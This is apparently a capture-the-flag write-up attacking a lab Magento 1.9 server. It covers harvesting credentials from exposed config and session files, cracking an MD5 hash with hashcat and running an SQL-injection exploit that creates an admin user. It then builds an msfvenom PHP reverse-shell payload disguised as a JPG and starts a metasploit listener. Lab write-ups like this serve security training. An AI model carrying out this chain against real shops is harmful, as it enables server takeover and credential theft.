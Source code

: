 http://10.10.10.140/app/etc/local.xml gives us some mysql credentials. I tried using these as SSH login credentials, but no joy.
http://10.10.10.140/downloader/ ggives us a login page for Magento Connect Manager
http://10.10.10.140/var/package/Mage_All_Latest-1.9.0.0.xml suggests we're looking at a Magento 1.9 installation
http://10.10.10.140/var/session/ has a bunch of files with session information in them

I had a look at a 50KB file called sess_1iaam6otvkj4rtc4tm2qkg2g56 and found a username and password hash. A quick google result tells me that magento 1.9 used MD5 to hash passwords and the 2 characters after the colon in the password hash string were the salt. So I now have a username "forme", email address "email@example.com" and a password hash and salt "0a8335493c9fccd648ba53c601e3d67c:rp". Time to break out hashcat. CONCAT(MD5('qXpassword'), ':qX') where qX is the salt string.

```
hashcat -m 20 -a 0 -w 2 hashfile rockyou.txt
```
Result was "forme" but that's too short when I tried to log into the Magento frontend.


Let's try using the SQLi exploit described at https://medium.com/magebit/magento-web-exploit-case-studies-bac57add8c0e to create an admin user, which exploits a vuln fully described at https://blog.checkpoint.com/2015/04/20/analyzing-magento-vulnerability/

```
python sqliexploit.py http://10.10.10.140
WORKED
Check http://10.10.10.140/admin with creds ypwq:123
```

The URL mentioned in the exploit output is wrong, but if you navigate to http://10.10.10.140/index.php/admin you can login with those credentials

Now we have the ability to use the Magento admin panel, we're going to get a shell running as the user that the apache process is running as using the "Froghopper" attack documented https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.16.58 LPORT=4444 -o shell.
```

Enable template symlinks in System->Configuration->Advanced->Developer->Template Settings->Allow Symlinks = Yes
Next we upload our "JPG" that totally isn't a JPG by attaching it as an image to the default product category (Catalog->Manage Categories->Default Category->Image)
Next we setup our metasploit listener:
```
msfconsole
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.10.16.58
LHOST => 10.10.16.58
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.58:4444
```
